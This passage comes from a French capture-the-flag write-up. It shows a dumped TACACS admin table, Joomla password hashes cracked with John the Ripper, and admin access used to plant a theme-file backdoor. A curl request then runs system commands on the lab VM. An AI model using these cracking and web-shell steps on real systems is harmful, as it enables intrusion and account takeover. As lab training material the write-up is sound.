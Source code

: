 ```
Database: tacacs
Table: admin
[1 entry]
+-------+------+-------+----------+---------------+
| uid   | link | vrows | priv_lvl | password      |
+-------+------+-------+----------+---------------+
| admin | 0    | 25    | 15       | ht70zyjHsMl3A |
+-------+------+-------+----------+---------------+
```

J'ai recopié les hashs du Joomla! et les ait convertit dans un format spécifique pour `JohnTheRipper` :

```
admin:$dynamic_1$8dce0c268a72ec988999cb5a59fadd35$K30ubzQvaQaHbs0peZrM78GBMWbe5KQb:::::::
gizmo:$dynamic_1$6da55fdfcf53a4b3a07390921866cc18$qECsCP9t5NwPILY77j6hGM2MrgX4Je39:::::::
```

Casser le password de `gizmo` est instantané :

```
Loaded 2 password hashes with 2 different salts (dynamic_1 [md5($p.$s) (joomla) 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
sillyboy         (gizmo)
```

## FUKU

Les identifiants permettent donc un accès admin sur le Joomla! via le path `/administrator`.

La procédure pour ajouter du code consiste à modifier un fichier de thème et est décrite dans le writeup pour le [CTF Rosee de Wizard Labs](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Rosee%20de%20Wizard%20Labs.md).

Quand j'ai voulu ajouter une backdoor appelant `system()` ma requête HTTP a été bloquée et les communications avec la VM aussi.

Il doit y avoir un IDS qui a détecté le payload.

J'ai à la place ajouté le code plus générique utilisé par exemple sur le [CTF Underdist #3](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Underdist%20%233%20de%20VulnHub.md#you-got-mail).

Je peux alors exécuter des commandes de cette façon :

```bash
$ curl -s http://192.168.56.94:13370/ --data "&f=system&a=lsb_release -a" | head -5
Distributor ID: Ubuntu
Description:    Ubuntu 15.04
Release:        15.04
Codename:       vivid
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
```
